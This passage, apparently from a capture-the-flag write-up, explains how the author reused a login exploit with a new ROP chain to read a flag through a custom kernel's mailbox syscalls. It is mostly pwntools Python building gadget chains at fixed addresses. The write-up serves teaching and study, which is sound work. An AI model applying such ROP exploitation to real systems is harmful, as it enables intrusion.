 Since `login` is the same as in the previous part, we can reuse the exploit for
part 2 but change the ROP chain so that it creates a mailbox, sends a message
to it, receives it to an address in userspace (e.g., somewhere in .bss) and
finally prints it with `kcon_puts`. Again, I could have done this by writing
shellcode somewhere in memory but I did it using ROP purely out of habit.

```py
from pwn import *

def set_eax(eax):
    return b''.join([
    p32(0x40004467), # pop eax; ret;
    p32(eax),
])

def set_ebx(ebx):
    return b''.join([
    # 0x400033a0: pop ebx; ret;
    p32(0x400033a0),
    p32(ebx),
])

def set_ecx_edx(ecx, edx):
    return b''.join([
    # 0x4000016c: pop edx; pop ecx; ret;
    p32(0x4000016c),
    p32(edx),
    p32(ecx),
])

def set_ebx_esi_edi(ebx, esi, edi):
    return b''.join([
    # 0x4000038b: pop ebx; pop esi; pop edi; ret;
    p32(0x4000038b),
    p32(ebx),
    p32(esi),
    p32(edi),
])

int30_ret = p32(0x40000145)

def create_mailbox(ipc_id, limit, msg_size, flags):
    return b''.join([
        set_ebx_esi_edi(ipc_id >> 32, msg_size, flags),
        set_ecx_edx(ipc_id & 0xffffffff, limit),
        set_eax(0x22),
        int30_ret,
    ])

def mailbox_add(pid, ipc_id, payload, length):
    return b''.join([
        set_ebx_esi_edi(pid, payload, length),
        set_ecx_edx(ipc_id >> 32, ipc_id & 0xffffffff),
        set_eax(0x2a),
        int30_ret,
    ])

def mailbox_get(pid, ipc_id, payload, len_maxlen_addr):
    return b''.join([
        set_ebx_esi_edi(pid, payload, len_maxlen_addr),
        set_ecx_edx(ipc_id >> 32, ipc_id & 0xffffffff),
        set_eax(0x2b),
        int30_ret,
    ])
```